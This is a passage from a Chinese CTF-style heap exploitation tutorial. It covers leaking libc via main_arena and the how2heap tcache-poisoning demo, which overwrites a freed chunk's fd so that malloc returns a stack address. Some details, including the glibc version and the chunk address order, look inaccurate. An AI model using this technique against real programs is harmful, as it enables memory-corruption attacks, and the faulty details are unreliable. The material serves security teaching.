 比较巧合的是，`main_arena` 和 `__malloc_hook` 的地址差是 0x10，而大多数的 `libc` 都可以直接查出 `__malloc_hook` 的地址，这样可以大幅减小工作量。以 pwntools 为例:

```
main_arena_offset = ELF("libc.so.6").symbols["__malloc_hook"] + 0x10
```

另外，如果我们无法做到访问链表尾，但是可以访问链表头，那么在 32 位的环境下，对链表头进行 `printf` 等往往可以把 `fd` 和 `bk` 一起输出出来，这个时候同样可以实现有效的 leak。然而在 64 位下，由于高地址往往为 `\x00`，很多输出函数会被截断，这个时候可能就难以实现有效 leak。

## 8. tcache attach

`tcache`在`glibc>2.28`中被引入. 类似于`fastbin`, `tcache`的链表使用 FILO 的模式.

### 8.1 tcache poisoning

#### 原理

通过覆盖`tcache`的`fd`字段, 可以达到 malloc 任意地址的效果, 类似于`fastbin attack`

#### 例子

以`how2heap`中的`tcache posioning`为例:
首先申请两个大小为 128 的 chunk, 128 在 tcache 的大小范围内, 和一个位于栈中的变量.

```c
size_t stack_var;  // the address we want to alloc, 0x7fffffffe148
intptr_t *a = malloc(128);  // chunk1, 0x5555557572f0
intptr_t *b = malloc(128);  // chunk2, 0x555555757260
```

然后再释放这两个 chunk

```c
free(a);
free(b);
```

此时, 的 tcache 链表如下:

```
0x90 [  2]: 0x5555557572f0 —▸ 0x555555757260 ◂— 0x0
```

然后通过修改`b[0]`来修改 chunk2 的`fd`字段, 实际题目中可以通过溢出的方式修改`fd`

```c
b[0] = (intptr_t)&stack_var;
```

此时, chunk2 的`fd`字段变成了栈上的某个地址, tcache 链表如下:

```
0x90 [  2]: 0x5555557572f0 —▸ 0x7fffffffe148 ◂— 0x0
```

再申请两个大小为 128 的 chunk:

```c
malloc(128);  // chunk3, 0x5555557572f0
intptr_t *c = malloc(128);  // chunk4, 0x7fffffffe148
```
